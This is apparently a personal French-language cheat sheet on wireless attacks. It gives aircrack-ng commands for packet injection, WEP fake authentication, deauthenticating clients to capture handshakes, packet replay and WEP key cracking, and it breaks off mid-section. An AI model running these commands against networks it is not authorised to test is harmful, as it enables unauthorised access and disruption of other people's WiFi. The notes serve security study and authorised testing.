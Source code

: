 _**Wireless Threats :**_

- [https://www.examcollection.com/certification-training/security-plus-wireless-attacks-and-their-types.html](https://www.examcollection.com/certification-training/security-plus-wireless-attacks-and-their-types.html "https://www.examcollection.com/certification-training/security-plus-wireless-attacks-and-their-types.html")
    
- **Access Control Attacks :**
    
    - **Spoofing MAC Address :**
    - **Rogue Access Point :**
    - **Misconfiguration :**
        - Ça peut être des trucs du genre des password simples, default credential, mauvaise stratégie en social engineering etc
- **Integrity Attacks :**
    
- - **Pense bête :**
	- Check si tu peux faire des injections avec aircrack-ng avant de te lancer sinon tu perd du temps :
		- aireplay-ng -9 wlan0mon

    - **WEP Injection :**
        
    - **Data Frame Injection :**
        
    - **Fake authentication :**
        
        - **WEP :**
            - C'est pour associer notre adresse MAC à l'AP et se faire donc passer pour un client légitime. C'est utile pour pas mal d'attaques.
            - Commandes avec aircrack-ng :
                - `aireplay-ng -1 0 -e bbox -a AP_MAC -h TON_ADDR_MAC wlan0mon`
                - ou
                - `aireplay-ng -1 6000 -o 1 -q 10 -e bbox -a AP_MAC -h TON_MAC wlan0mon`  6000 signifie se reauthentifier toute les 6000 secondes pour que les packets keep-alive (-q 10) soient envoyés (toute les 10 secondes). -o envoie qu'un seul packet à la fois, quand y'en a plusieurs, y'a des APs qui font chier.
            - Si l'attaque basique ne fonctionne pas, c'est probable que l'AP fonctionne sous shared-key authentication. Y'a quand même une méthode mais c'est plus chiant.
            - On peut le faire avec aircrack-ng :
                - `airmon-ng start wlan0 9` mode monitor sur le channel target 9 dans ce cas
                - `airodump-ng -c 9 --bssid AP_BSSID -w outputfile wlan0mon` Pour récupérer le fichier PRGA xor file c'est le handshake en fait
                - `aireplay-ng -0 1 -a AP_MAC -c TARGET_MAC wlan0mon` (dans un autre shell)   Pour déauthentifier une target et donc récupérer le handshaker nécessaire.
                - `aireplay-ng -1 0 -e bbox -y sharedkey.xor -a AP_MAC -h SOURCE_MAC wlan0mon`
    - **Replay Attacks :**
        
        - **Interactive packet replay (0841 attacks) :**
            - C'est une attaque excusive à WEP (y'a des variante pour WPA/WPA2). C'est pour rejouer un packet venant soit d'un fichier pcap soit directement d'un trafic capturé par ta carte. Le but est de rebroadcaster le packet injecté et de pouvoir générer un Initialization vector (IV). On va donc soit utilisé un packet naturellement fonctionnel ou manipuler un packet capturé.
            - Natural packets :
                - Pour créer packet naturel, les éléments à prendre en compte pour que le packet fonctionne :
                    - Il faut qu'il ait une destination avec une MAC address broadcast : FF:FF:FF:FF:FF:FF
                    - L'adresse de l'AP évidemment
                    - Ça doit être un packet qui vient d'un client wireless vers un wired network. C'est un paquet avec le bit "To DS" donc le bit 1.
                - Les commandes pour effectuer l'attaque avec aircrack-ng :
                    - `airodump-ng -c 6 -w out --bssid AP_MAC wlan0mon` pour chopper les réponses et voir si ça a fonctionnée.
                    - `aireplay-ng -2 -b AP_MAC -d FF:FF:FF:FF:FF:FF -t 1 wlan0mon`
                    - On va ensuite craquer les IV générés avec aircrack-ng quand on en a assez.
                    - `aircrack-ng wepcrack-01.pcap`
            - Manipulated packets :
                - Pour les packet capturés qu'on va manipuler à la volée :
                    - L'adresse de l'AP comme d'hab